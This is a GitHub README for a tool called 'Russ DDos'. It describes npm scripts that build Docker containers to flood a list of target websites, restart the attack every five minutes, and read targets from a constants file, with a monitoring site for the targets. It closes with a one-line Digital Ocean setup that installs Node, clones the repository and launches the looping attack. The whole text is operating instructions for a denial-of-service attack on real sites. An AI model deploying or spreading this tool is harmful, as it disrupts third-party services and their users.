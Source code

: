 #Russ DDos
Target sites can see in
https://ddosmonitor.herokuapp.com/

### Requirments
`Node (v17.6.0)`
`Docker Docker Compoose`
`Linux, Mac or WSL 2 (avaliability to run bash scripts)` 

### Scripts
`npm run service:generate` - generate docker-compose.yml. Based on request which will return still working target sites.

`npm run service:start` - start attack

`npm run service:forceKill` - stop attack, and clean all images

`npm run service:genStart` - generate new docker-compose.yml and start attack

`npm run startRestartServise` - restart DDos every 5 minutes

### Setup list of targets
`./constants/DDOS_TARGETS.js` file with list of targets

`./constants/DEFAULT_VALUES.js` ddos basic values


### Script for setup in Digital Ocean (Docker container)
`
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash &&
source ~/.bashrc &&
nvm install 17 &&
nvm use 17 &&
git clone https://github.com/SergeyGuliy/russ_ddos.git &&
cd russ_ddos/ &&
chmod u+x bash/loop.sh &&
npm i &&
npm run startRestartServise
`